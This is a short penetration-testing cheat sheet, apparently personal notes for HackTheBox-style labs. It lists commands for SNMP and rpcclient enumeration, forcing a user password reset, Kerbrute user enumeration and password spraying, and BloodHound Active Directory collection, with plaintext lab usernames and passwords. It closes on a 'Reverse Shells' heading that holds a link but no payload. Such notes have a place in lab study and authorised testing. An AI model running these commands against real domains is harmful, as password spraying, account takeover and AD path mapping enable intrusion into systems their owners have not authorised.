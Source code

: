 ## SNMP Check for Linux 
```
snmp-check 192.168.247.42 -c public
```
### Authenticated RPCCLIENT Enumeration
[Cheatsheet](https://blog.1nf1n1ty.team/hacktricks/network-services-pentesting/pentesting-smb/rpcclient-enumeration)

```
enumdomusers
```

Set user password
```
setuserinfo2 targetusername 23 'newpassword'
```

```
querydispinfo
```
## Active Directory Enumeration

### Kerbrute 

Enumerate users in a domain
```
./kerbrute userenum --dc 10.10.10.248 -d intelligence.htb <username-list>
```

Password spraying users in a domain
```
./kerbrute passwordspray --dc 10.10.10.248 -d intelligence.htb <username-list> 'Passw0rd!'
```

### Bloodhound

```
python3.8 bloodhound.py -ns 10.10.10.248 -d intelligence.htb -dc dc.intelligence.htb -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -c All
```

Start bloodhound server 
```
cd ~/Tools/AD-Enumeration/New-Bloodhound-App; docker compose up -d
```
using bloodhound community edition branch 
```
python3 bloodhound.py -d certified.htb -u 'judith.mader' -p 'judith09' -c all -ns 10.10.11.41 
```

# Reverse Shells

[Reverse Shell Generator ](https://www.revshells.com/)
## PHP

